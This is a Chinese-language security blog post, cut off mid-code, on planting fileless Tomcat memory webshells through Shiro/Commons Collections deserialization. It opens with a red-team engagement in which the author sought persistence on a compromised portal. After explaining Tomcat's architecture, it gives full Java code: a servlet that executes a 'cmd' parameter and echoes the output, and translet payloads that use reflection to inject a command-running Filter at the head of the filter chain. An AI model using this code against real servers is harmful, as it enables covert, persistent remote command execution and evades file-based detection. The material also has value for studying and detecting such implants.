



## 简介
在Tomcat内存马基础入门中，只介绍了对应对于在tomcat中，当jsp文件落地之后动态创建`filter`,`servlet`,`listener`，那么当只能代码执行（也就是文件不能落地）的情况下，就需要利用漏洞，通过反序列化写入内存马，在jsp文件中，request是内置对象，在普通java文件中，要通过层层反射去取对应的request，这就是其中的难点之一；以及在代码执行一般就只执行命令，也没有回显，所以使用Tomcat回显命令也是一个很重要的思路
## 背景
在某HW过程中，通过shiro拿到某单位的门户权限，留后门的过程中发现该CMS不解析jsp，访问直接404，对应路径没有问题，其他诸如js的等文件都能访问，也没有nginx反向代理对jsp文件进行拦截，就只有一个Tomcat开放着80端口，拿到服务器之后解密后台密码，发现也没有对整个站点的配置情况，时间紧，任务重，此时就需要对目标环境进行权限维持，此时不管是Linux权限维持还是Web权限维持，都需要做，这里针对该目标进行web权限维持，通过shiro反序列化来进行内存马植入。
## Tomcat架构原理
此部分全部来自[P1n93r-Tomcat 架构原理](https://p1n93r.github.io/post/java/tomcat%E6%9E%B6%E6%9E%84%E5%8E%9F%E7%90%86/)
Tomcat的启动流程如下：
startup.sh -> catalina.sh start -> java -jar org.apache.catalina.startup.Bootstrap.main()
Tomcat需要实现的2个核心功能：

- 处理socket连接，负责网络字节流与Request和Response对象的转化
- 加载并管理Servlet，以及处理具体的Request请求

为此Tomcat设计了两个核心组件： 连接器（Connector）和容器（Container），连接器负责对外交流，容器负责内部处理；同时Tomcat为了实现支持多种IO模型和应用层协议，多个连接器对接一个容器。


- Server 对应一个Tomcat实例；
- Service 默认只有一个，一个Tomcat实例默认一个Service；
- Connector 一个Service可能多个连接器，接收不同的连接协议；
- Container 多个连接器对应一个容器，顶层容器其实就是Engine；

每个组件都有对应的生命周期，需要启动的话，还需要启动自己内部的子组件，比如一个Tomcat实例包含一个Service，一个Service包含多个连接器和一个容器。而一个容器又包含多个Host，Host内部可能有多个Context容器，而一个Context也会包含多个Servlet。整体是一个俄罗斯套娃。
### Connecter(连接器)
Tomcat支持的IO模型有：

- NIO：非阻塞IO，采用Java NIO类库实现；
- NIO2：异步IO，采用JDK7最新的的NIO2类库实现；
- APR：采用Apache可移植运行库实现，是C/C++编写的本地库；

Tomcat支持的应用层协议有：

- HTTP/1.1：绝大部分WEB应用采用的访问协议；
- AJP：用于和WEB服务器集成；
- HTTP/2：HTTP 2.0大幅度提升了WEB性能；

所以一个容器可能对接多个连接器，连接器对Servlet容器屏蔽了网络协议和IO模型，无论是HTTP还是AJP协议，在容器中获取到的都是一个标准的ServletRequest对象。
细化连接器的功能就是：

- 监听网络端口；
- 接收网络连接请求；
- 读取请求网络字节流；
- 根据具体的应用层协议解析字节流，生成统一的Tomcat Request对象；
- 将Tomcat Request对象转换成标准的ServletRequest对象；
- 调用Servlet容器，得到ServletResponse对象；
- 将ServletResponse转成Tomcat Response对象；
- 将Tomcat Response转成网络字节流；
- 将响应字节流写回给浏览器；

其中，Tomcat设计了三个组件，其负责功能如下：

- EndPoint：负责网络通信，将字节流传递给Processor；
- Processor：负责处理字节流生成Tomcat Request对象，将Tomcat Request对象传递给Adapter；
- Adapter：负责将Tomcat Request对象转成ServletRequest对象，传递给容器；

再细化一下连接器，得到如下架构图：

#### ProtocolHandler组件
Endpoint和Processor放在一起抽象成了ProtocolHandler组件，主要负责处理： **网络连接和应层协议** 。
##### Endpoint组件
Endpoint是通信端点，是具体的Socket接收和发送处理器，是对传输层的抽象。因此Endpoint是用TCP/IP协议来进行数据读写的，本质是调用Socket接口；
简而言之，Endpoint接收到Socket连接后，生成一个SocketProcessor任务提交到线程池进行处理，SocketProcessor的run方法将调用Processor组件进行应用层协议的解析，Processor解析后生成Tomcat Request对象，然后会调用Adapter的Service方法，方法内部通过如下代码将Request请求传递到容器中：
```java
// Calling the container
connector.getService().getContainer().getPipeline().getFirst().invoke(request, response);
```
##### Adapter组件
由于协议的不同，Tomcat定义了自己的Request类来存放请求信息，但是这个不是标准的ServletRequest。于是需要使用Adapter将Tomcat Request对象转成ServletRequest对象，然后就可以调用容器的service方法了；
### Container(容器)
Connector连接器负责外部交流，Container容器负责内部处理。也就是：** 连接器处理Socket通信和应用层协议的解析，得到ServletRequest，而容器则负责处理ServletRequest**。
容器顾名思义，就是用来装东西的，Tomcat容器就是用来装载Servlet的；
Tomcat设计了4种容器：Engine、Host、Context和Wrapper。这四种容器是父子关系，如下图所示：


- 一个Host多个Context，一个Context包含多个Servlet；
- Wrapper表示一个Servlet，Context表示一个WEB应用程序，而一个WEB应用可以有多个Servlet；
- Host表示一个虚拟机，或者说一个站点，一个Tomcat可以配置多个站点；
- 一个站点可以部署多个WEB应用；
- Engine代表引擎，用于管理多个站点（Host），一个Service只能有一个Engine；

下面是Tomcat的配置文件，可以反应这些层次关系：
```xml
<Server port="8005" shutdown="SHUTDOWN"> // 顶层组件，可包含多个 Service，代表一个 Tomcat 实例

  <Service name="Catalina">  // 顶层组件，包含一个 Engine ，多个连接器
    <Connector port="8080" protocol="HTTP/1.1"
               connectionTimeout="20000"
               redirectPort="8443" />

    <!-- Define an AJP 1.3 Connector on port 8009 -->
    <Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />  // 连接器

    // 容器组件：一个 Engine 处理 Service 所有请求，包含多个 Host
    <Engine name="Catalina" defaultHost="localhost">
      // 容器组件：处理指定Host下的客户端请求， 可包含多个 Context
      <Host name="localhost"  appBase="webapps"
            unpackWARs="true" autoDeploy="true">
            // 容器组件：处理特定 Context Web应用的所有客户端请求
            <Context></Context>
      </Host>
    </Engine>
  </Service>
</Server>
```
### 请求定位Servlet的过程
Tomcat使用Mapper组件来完成请求到Wrapper中Servlet的定位的；Mapper组件的功能就是将用户请求的URL定位到一个Servlet，它的工作原理是： **Mapper组件里保存了WEB应用的配置信息，也就是容器组件与访问路径的映射关系 **。比如Host容器里配置的域名、Context容器里的WEB应用路径以及Wrapper容器里Servlet映射的路径。这是一个多层次的Map；
当一个请求过来，Mapper组件通过解析请求URL里的域名和路径，再到自己保存的Map里去找，就能定位到一个Servlet。 最终，**一个请求URL只会定位到一个Wrapper容器**，也就是一个Servlet 。

连接器中的Adapter会调用容器的service方法来执行Servlet，最先拿到请求的是Engine容器，Engine容器对请求做一些处理后，会把请求传给自己的子容器Host继续处理，以此类推，最终这个请求会传给Wrapper容器，Wrapper容器会调用最终的Servlet来处理。 **整个调用过程是通过Pipeline-Valve管道进行的 。**
Pipeline-Valve是责任链模式，责任链模式是指：**在一个请求处理的过程中，有很多处理者一次对请求进行处理，每个处理者负责做自己相应的处理，处理完之后再调用下一个处理者继续处理 **。Valve表示一个处理点（也就是一个处理阀门），Valve中的invoke方法就是来处理请求的。
Valve的数据结构如下：
```java
public interface Valve {
  public Valve getNext();
  public void setNext(Valve valve);
  public void invoke(Request request, Response response)
}
```
Pipeline的数据结构如下：
```java
public interface Pipeline {
  public void addValve(Valve valve);
  public Valve getBasic();
  public void setBasic(Valve valve);
  public Valve getFirst();
}
```
Pipeline中有addValve方法，维护了Valve链表，Valve可以插入到Pipeline中，对请求做某些处理。Pipeline中是没有invoke方法的，因为整个调用链的触发是Valve来完成的，Valve完成自己的处理后，调用getNext().invoke()来触发下一个Valve调用。
每个容器都有一个Pipeline对象，只要触发了这个Pipeline的第一个Valve，这个容器里的Pipeline中的Valve都会被调用到。
其中，Pipeline中的getBasic方法获取的Valve处于Valve链的末端，它是Pipeline中必不可少的一个Valve，** 负责调用下层容器的Pipeline里的第一个Valve **。
**演示图如下图所示：**

而整个过程是通过连接器CoyoteAdapter中的service方法触发的，它会调用Engine的第一个Valve，如下所示：
```java
@Override
public void service(org.apache.coyote.Request req, org.apache.coyote.Response res) {
    // 省略其他代码
    // Calling the container
    connector.getService().getContainer().getPipeline().getFirst().invoke(
        request, response);
    ...
}
```
**Wrapper容器的最后一个Valve会创建一个Filter链，并调用doFileter方法，最终会调到Servlet的service方法。**
### Tomcat类加载器
Tomcat自定义的类加载器WebAppClassloader为了隔离WEB应用打破了双亲委托机制，它首先尝试自己加载某个类，如果找不到再交给父类加载器，其目的是优先加载WEB应用自己定义的类。
同时，为了防止WEB应用自己的类覆盖JRE的核心类，在本地WEB应用目录下查找之前，先使用ExtClassLoader（使用双亲委托机制）去加载，这样既打破了双亲委托，同时也能安全加载类；
### 总结
最终得到总体的请求流程图，如下图所示：

## Tomcat 回显
该部分大部分来自于[threedr3am-基于tomcat的内存 Webshell 无文件攻击技术](https://xz.aliyun.com/t/7388#toc-2)
### 环境
| jdk | jdk8u181 |
| --- | --- |
| tomcat | tomcat8.5.79 |

首先可以看看一个普通http请求进来的时候，tomcat的部分执行栈：
```java
doGet:27, HelloServlet (com.fastjson.test)
service:655, HttpServlet (javax.servlet.http)
service:764, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core) [2]
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core) [1]
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:197, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:543, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:135, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:698, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:367, CoyoteAdapter (org.apache.catalina.connector)
service:639, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:882, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1647, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1191, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:659, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:748, Thread (java.lang)
```
按照kingkk师傅的方法，利用的点是在 org.apache.catalina.core.ApplicationFilterChain.internalDoFilter：

其中通过反射修改ApplicationDispatcher.WRAP_SAME_OBJECT为true，并且对lastServicedRequest和lastServicedResponse这两个ThreadLocal进行初始化，之后，每次请求进来，就能通过这两个ThreadLocal获取到相应的request和response了。但是，也存在一点小限制，在其set之前，执行完了所有的Filter了`**filter.doFilter(request, response, this)**`**,这个致命的缺点就会导致shiro无法获取到response回显，因为shiro本身就是一个filter**
```java
private void internalDoFilter(ServletRequest request, ServletResponse response) throws IOException, ServletException {
    if (this.pos < this.n) {
        ApplicationFilterConfig filterConfig = this.filters[this.pos++];

        try {
            Filter filter = filterConfig.getFilter();
            if (request.isAsyncSupported() && "false".equalsIgnoreCase(filterConfig.getFilterDef().getAsyncSupported())) {
                request.setAttribute("org.apache.catalina.ASYNC_SUPPORTED", Boolean.FALSE);
            }

            if (Globals.IS_SECURITY_ENABLED) {
                Principal principal = ((HttpServletRequest)request).getUserPrincipal();
                Object[] args = new Object[]{request, response, this};
                SecurityUtil.doAsPrivilege("doFilter", filter, classType, args, principal);
            } else {
                filter.doFilter(request, response, this);
            }

        } catch (ServletException | RuntimeException | IOException var15) {
            throw var15;
        } catch (Throwable var16) {
            Throwable e = ExceptionUtils.unwrapInvocationTargetException(var16);
            ExceptionUtils.handleThrowable(e);
            throw new ServletException(sm.getString("filterChain.filter"), e);
        }
    } else {
        try {
            if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
                lastServicedRequest.set(request);
                lastServicedResponse.set(response);
            }

            if (request.isAsyncSupported() && !this.servletSupportsAsync) {
                request.setAttribute("org.apache.catalina.ASYNC_SUPPORTED", Boolean.FALSE);
            }

            if (request instanceof HttpServletRequest && response instanceof HttpServletResponse && Globals.IS_SECURITY_ENABLED) {
                Principal principal = ((HttpServletRequest)request).getUserPrincipal();
                Object[] args = new Object[]{request, response};
                SecurityUtil.doAsPrivilege("service", this.servlet, classTypeUsedInService, args, principal);
            } else {
                this.servlet.service(request, response);
            }
        } catch (ServletException | RuntimeException | IOException var17) {
            throw var17;
        } catch (Throwable var18) {
            Throwable e = ExceptionUtils.unwrapInvocationTargetException(var18);
            ExceptionUtils.handleThrowable(e);
            throw new ServletException(sm.getString("filterChain.servlet"), e);
        } finally {
            if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
                lastServicedRequest.set((Object)null);
                lastServicedResponse.set((Object)null);
            }

        }

    }
}
```
### 动态注册Filter
通过动态注册一个Filter，并且把其放到最前面，这样，我们的Filter就能最先执行了，并且也成为了一个内存Webshell了，要实现动态动态注册filter，第一个步骤就是要获取到request和response，第二步则是通过request或者response去创建filter
在这里需要知道ApplicationDispather.WRAP_SAME_OBJECT这个变量为false，且lastServiceRequest初始化都为null，如果能将其request,response都set进去，那么则可以直接获取到request，在这里就需要通过反射将ApplicationDispather.WRAP_SAME_OBJECT设置为true使其走到对应的条件语句中来

这样当我们第二次访问的时候将 response 从 lastServicedResponse 中取出来，然后将我们命令执行的结果直接写在 response 里面就可以了
在这里我们先使用一个servlet来本地尝试一下：

1. 第一次访问利用反射修改特定参数，从而将 request 和 response 存储到 lastServicedRequest 和 lastServicedResponse 中
2. 第二次访问将我们需要的 request 和 response 取出，从而将结果写入 response 中从而达到回显目的

创建一个Servlet，在web.xml里声明name，和path
```java
package com.fastjson.test;

import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.io.Writer;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;

@WebServlet("/echo")
@SuppressWarnings("all")
public class ShellServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try{
            Class applicationDispatcher = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
            Field WRAP_SAME_OBJECT_FIELD = applicationDispatcher.getDeclaredField("WRAP_SAME_OBJECT");
            WRAP_SAME_OBJECT_FIELD.setAccessible(true);
            // 利用反射修改 final 变量 ，不这么设置无法修改 final 的属性
            Field f0 = Class.forName("java.lang.reflect.Field").getDeclaredField("modifiers");
            f0.setAccessible(true);
            f0.setInt(WRAP_SAME_OBJECT_FIELD,WRAP_SAME_OBJECT_FIELD.getModifiers()& ~Modifier.FINAL);

            Class applicationFilterChain = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
            Field lastServicedRequestField = applicationFilterChain.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = applicationFilterChain.getDeclaredField("lastServicedResponse");
            lastServicedRequestField.setAccessible(true);
            lastServicedResponseField.setAccessible(true);
            f0.setInt(lastServicedRequestField,lastServicedRequestField.getModifiers()& ~Modifier.FINAL);
            f0.setInt(lastServicedResponseField,lastServicedResponseField.getModifiers()& ~Modifier.FINAL);

            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(applicationFilterChain);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(applicationFilterChain);

            String cmd = lastServicedRequest!=null ? lastServicedRequest.get().getParameter("cmd"):null;

            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(applicationDispatcher) || lastServicedRequest == null || lastServicedResponse == null){
                WRAP_SAME_OBJECT_FIELD.setBoolean(applicationDispatcher,true);
                lastServicedRequestField.set(applicationFilterChain,new ThreadLocal());
                lastServicedResponseField.set(applicationFilterChain,new ThreadLocal());
            } else if (cmd!=null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                StringBuilder sb = new StringBuilder("");
                byte[] bytes = new byte[1024];
                int line = 0;
                while ((line = inputStream.read(bytes))!=-1){
                    sb.append(new String(bytes,0,line));
                }
                Writer writer = lastServicedResponse.get().getWriter();
                writer.write(sb.toString());
                writer.flush();
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

    }
}

```
首先在访问/echo的时候，第一次访问ApplicationDispatcher.WRAP_SAME_OBJECT这里为false

在这里就会直接把resquest和response 给对应访问的servlet（ShellServlet）然后可以看到

然后到ShellServlet#doGet()的时候，则会进入到if分支因为当前的ApplicationDispather.WRAP_SAME_OBJECT为false，且lastServicedRequest,lastServicedResponse初始化都为null，通过反射将ApplicationDispather.WRAP_SAME_OBJECT这个变量修改为true，并将lastServicedRequest,lastServicedResponse初始化实例化

由于修改值之后，最后到finally，lastServicedRequest，lastServicedResponse又会被设置为(Object) null

然后第二次访问的时候，此时ApplicationDispather.WRAP_SAME_OBJECT为true，进入条件分支，此时lastServicedRequest，lastServicedResponse都已经被赋值

然后到我们的Servlet当中来可以看到，传入的参数cmd被获取到，直接就会执行Runtime.getRuntime().exec()

最后再通过response回显到页面中

## 反序列化注入Filter
在进行反序列化注入之前，这里使用之前写的[Commons Collections 系列靶场](https://www.yuque.com/da-labs/secnotes/kdgn6s)
这里主要需要执行两步：
第一步将 request 和 response 存入到 lastServicedRequest 和 lastServicedResponse 中
第二步从 lastServicedRequest 和 lastServicedResponse 获取到我们的 request 和 response ，然后利用 request 获取到 servletcontext 然后动态注册 Filter
### 存入request和response
第一步还是和上面一样需要存入request 和 response 到 lastServicedRequest 和 lastServicedResponse，在这里写一个TomcatEcho类需要继承AbstractTranslet（因为需要携带恶意字节码到服务端加载执行）在其静态代码块中反射修改ApplicationDispatcher.WRAP_SAME_OBJECT为true，并且对lastServicedRequest和lastServicedResponse这两个ThreadLocal进行初始化
这里贴一下threedr3am师傅的代码
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

/**
 * @author threedr3am
 */
public class TomcatEcho extends AbstractTranslet {

    static {
        try {
            /*刚开始反序列化后执行的逻辑*/
            //修改 WRAP_SAME_OBJECT 值为 true
            Class c = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
            java.lang.reflect.Field f = c.getDeclaredField("WRAP_SAME_OBJECT");
            java.lang.reflect.Field modifiersField = f.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
            f.setAccessible(true);
            if (!f.getBoolean(null)) {
                f.setBoolean(null, true);
            }

            //初始化 lastServicedRequest
            c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
            f = c.getDeclaredField("lastServicedRequest");
            modifiersField = f.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
            f.setAccessible(true);
            if (f.get(null) == null) {
                f.set(null, new ThreadLocal());
            }

            //初始化 lastServicedResponse
            f = c.getDeclaredField("lastServicedResponse");
            modifiersField = f.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
            f.setAccessible(true);
            if (f.get(null) == null) {
                f.set(null, new ThreadLocal());
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```
当第一步通过反序列化完成之后，那么WRAP_SAME_OBJECT 值为 true，lastServicedRequest和lastServicedResponse这两个ThreadLocal也都初始化了，那么就能够获取到request，就能获取ServletContext，进而获取到StandardContext
代码如下：
```java
package com.fastjson.test;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.LifecycleState;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.*;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

/**
 * @author threedr3am
 */
public class TomcatInject extends AbstractTranslet implements Filter {

    /**
     * webshell命令参数名
     */
    private final String cmdParamName = "cmd";
    private final static String filterUrlPattern = "/*";
    private final static String filterName = "test";

    static {
        try {
            ServletContext servletContext = getServletContext();
            if (servletContext != null){
                Field ctx = servletContext.getClass().getDeclaredField("context");
                ctx.setAccessible(true);
                ApplicationContext appctx = (ApplicationContext) ctx.get(servletContext);

                Field stdctx = appctx.getClass().getDeclaredField("context");
                stdctx.setAccessible(true);
                StandardContext standardContext = (StandardContext) stdctx.get(appctx);

                if (standardContext != null){
                    // 这样设置不会抛出报错
                    Field stateField = org.apache.catalina.util.LifecycleBase.class
                            .getDeclaredField("state");
                    stateField.setAccessible(true);
                    stateField.set(standardContext, LifecycleState.STARTING_PREP);

                    Filter myFilter =new TomcatInject();
                    // 调用 doFilter 来动态添加我们的 Filter
                    // 这里也可以利用反射来添加我们的 Filter
                    javax.servlet.FilterRegistration.Dynamic filterRegistration =
                            servletContext.addFilter(filterName,myFilter);

                    // 进行一些简单的设置
                    filterRegistration.setInitParameter("encoding", "utf-8");
                    filterRegistration.setAsyncSupported(false);
                    // 设置基本的 url pattern
                    filterRegistration
                            .addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,
                                    new String[]{"/*"});

                    // 将服务重新修改回来，不然的话服务会无法正常进行
                    if (stateField != null){
                        stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTED);
                    }

                    // 在设置之后我们需要 调用 filterstart
                    if (standardContext != null){
                        // 设置filter之后调用 filterstart 来启动我们的 filter
                        Method filterStartMethod = StandardContext.class.getDeclaredMethod("filterStart");
                        filterStartMethod.setAccessible(true);
                        filterStartMethod.invoke(standardContext,null);

                        /**
                         * 将我们的 filtermap 插入到最前面
                         */

                        Class ccc = null;
                        try {
                            ccc = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                        } catch (Throwable t){}
                        if (ccc == null) {
                            try {
                                ccc = Class.forName("org.apache.catalina.deploy.FilterMap");
                            } catch (Throwable t){}
                        }
                        //把filter插到第一位
                        Method m = Class.forName("org.apache.catalina.core.StandardContext")
                                .getDeclaredMethod("findFilterMaps");
                        Object[] filterMaps = (Object[]) m.invoke(standardContext);
                        Object[] tmpFilterMaps = new Object[filterMaps.length];
                        int index = 1;
                        for (int i = 0; i < filterMaps.length; i++) {
                            Object o = filterMaps[i];
                            m = ccc.getMethod("getFilterName");
                            String name = (String) m.invoke(o);
                            if (name.equalsIgnoreCase(filterName)) {
                                tmpFilterMaps[0] = o;
                            } else {
                                tmpFilterMaps[index++] = filterMaps[i];
                            }
                        }
                        for (int i = 0; i < filterMaps.length; i++) {
                            filterMaps[i] = tmpFilterMaps[i];
                        }
                    }
                }

            }

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static ServletContext getServletContext()
            throws NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        ServletRequest servletRequest = null;
        /*shell注入，前提需要能拿到request、response等*/
        Class c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
        java.lang.reflect.Field f = c.getDeclaredField("lastServicedRequest");
        f.setAccessible(true);
        ThreadLocal threadLocal = (ThreadLocal) f.get(null);
        //不为空则意味着第一次反序列化的准备工作已成功
        if (threadLocal != null && threadLocal.get() != null) {
            servletRequest = (ServletRequest) threadLocal.get();
        }
        //如果不能去到request，则换一种方式尝试获取

        //spring获取法1
        if (servletRequest == null) {
            try {
                c = Class.forName("org.springframework.web.context.request.RequestContextHolder");
                Method m = c.getMethod("getRequestAttributes");
                Object o = m.invoke(null);
                c = Class.forName("org.springframework.web.context.request.ServletRequestAttributes");
                m = c.getMethod("getRequest");
                servletRequest = (ServletRequest) m.invoke(o);
            } catch (Throwable t) {}
        }
        if (servletRequest != null)
            return servletRequest.getServletContext();

        //spring获取法2
        try {
            c = Class.forName("org.springframework.web.context.ContextLoader");
            Method m = c.getMethod("getCurrentWebApplicationContext");
            Object o = m.invoke(null);
            c = Class.forName("org.springframework.web.context.WebApplicationContext");
            m = c.getMethod("getServletContext");
            ServletContext servletContext = (ServletContext) m.invoke(o);
            return servletContext;
        } catch (Throwable t) {}
        return null;
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse,
                         FilterChain filterChain) throws IOException, ServletException {
        System.out.println(
                "TomcatShellInject doFilter.....................................................................");
        String cmd;
        if ((cmd = servletRequest.getParameter(cmdParamName)) != null) {
